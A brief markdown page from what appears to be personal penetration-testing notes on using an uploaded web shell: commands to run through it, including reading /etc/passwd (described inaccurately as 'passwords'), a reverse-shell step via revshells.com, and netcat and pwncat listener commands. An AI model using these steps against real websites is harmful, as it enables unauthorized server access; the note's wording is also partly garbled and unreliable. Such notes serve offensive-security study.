 
Allows a person who uploaded it the ability to run a command to where the uploaded it.

### whoami
See who you are on a website

### ls
View directory on website

### cat /etc/passwd
View passwords

### bash \<revshells.com command\>
Sends a [Reverse Shell](Reverse%20Shell.md) back to you

nc -lvnp <port>

pwncat-cs :<9001>
